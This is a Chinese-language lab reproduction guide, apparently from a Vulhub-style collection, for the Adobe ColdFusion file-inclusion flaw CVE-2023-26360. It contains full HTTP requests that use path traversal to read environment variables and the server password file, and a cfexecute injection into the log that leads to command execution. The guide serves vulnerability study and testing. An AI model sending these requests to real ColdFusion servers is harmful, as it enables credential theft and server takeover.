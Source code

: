 # Adobe ColdFusion 本地文件包含漏洞 CVE-2023-26360

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 2018 Update 15 和 2021 Update 5 版本及以前，存在一处文件包含漏洞。攻击者可以利用该漏洞在服务器上执行任意代码。

参考链接：

- [https://xz.aliyun.com/t/13392](https://xz.aliyun.com/t/13392)

## 环境搭建

Vulhub启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-vps-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

![](images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153449288.png)

## 漏洞复现

发送如下请求即可读取文件`/proc/self/environ`：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 82
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
```

可以在返回包中找到Adobe ColdFusion的根目录`/opt/coldfusion/cfusion`：

![](mages/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153705716.png)

从`../../../../../../../../opt/coldfusion/cfusion/lib/password.properties`中读取服务器密码：

![](images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153740311.png)

想要利用文件包含漏洞执行任意代码，需要先发送如下请求来写入CFM脚本：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 67
Content-Type: application/x-www-form-urlencoded

_variables=<cfexecute name='id' outputFile='/tmp/awesome_poc' ></cfexecute>
```

然后包含日志文件，执行该CFM代码：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 111
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log"}}
```

![](images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153957320.png)

可见，`id`命令的执行结果已经被写入`/tmp/awesome_poc：

![](images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153931349.png)
